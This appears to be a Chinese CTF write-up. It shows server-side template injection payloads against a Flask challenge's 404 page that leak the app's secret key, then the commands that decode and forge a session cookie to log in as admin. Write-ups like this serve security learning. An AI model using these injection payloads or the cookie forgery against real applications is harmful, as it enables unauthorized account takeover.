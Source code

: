 登录会显示用户名，正常情况下，admin用户是无法登录的。

![1209628-20181207203705974-2070684584](https://i.imgur.com/LlDvRrX.png)


利用404页面的ssti读取内置变量，还有其它一些常用方法可以参考：https://blog.csdn.net/qq_33020901/article/details/83036927

```bash
# 输出hello 2，确定是模板注入
https://118.25.18.223:3001/{{1+1}}

https://118.25.18.223:3001/{{config}}

https://118.25.18.223:3001/{{''.__class__.__mro__}}
# 发现可以，觉得大概是沙箱逃逸了
```


![attack](https://i.imgur.com/UzdZoNo.png)

![20190223211856417](https://i.imgur.com/w0r5P8s.png)


## 伪造session登陆

注入`{{config}}`得到了`secret_key`，
- 抓取session利用GitHub的`session_cookie_manager.py`解密`session`，
- 发现user_id是个数字，把它改成 admin 加密后访问失败。
- 注册两个新账号whd1/whd2发现其 user_id 为 164/165
- 猜测admin的user_id为01.
- 成功得到flag


**cookie**:

```bash
# 我之前登录的cookie是：
Cookie: session=eyJ1c2VybmFtZSI6ImhlaGUifQ.XApTkw.zcIUPrpo71h_doQs_GKtDlLesP8

# 使用session_cookie_manager.py解开得到用户信息。
# $ python session_cookie_manager.py decode -s "secret_key" -c "Cookie: session"
$ python session_cookie_manager.py decode -s "a8bc2e85-d628-40f0-a56d-a86b19b4c1f9" -c "eyJ1c2VybmFtZSI6ImhlaG UifQ.XApTkw.zcIUPrpo71h_doQs_GKtDlLesP8"
# {u'username': u'hehe'}
# {u'csrf_token':u'xxxxxxxx', u'_fresh':True, u'user_id':u'28', u'_id':u'xxxxxxxx'}

# 伪造admin用户身份：
$ python session_cookie_manager.py encode -s "a8bc2e85-d628-40f0-a56d-a86b19b4c1f9" -t "{u'username': u'admin' }"
eyJ1c2VybmFtZSI6ImFkbWluIn0.XArr2w.O2zQzR4fFLCrGhDLjWol8-mLp7E
```

提交生成的cookie：用admin身份成功登录。

![1209628-20181207205516587-1118649062](https://i.imgur.com/xPNkJ0T.png)


![20190223211926119](https://i.imgur.com/yn48wFR.png)



---


ref:
- [客户端 session 导致的安全问题](https://www.leavesongs.com/PENETRATION/client-session-security.html)
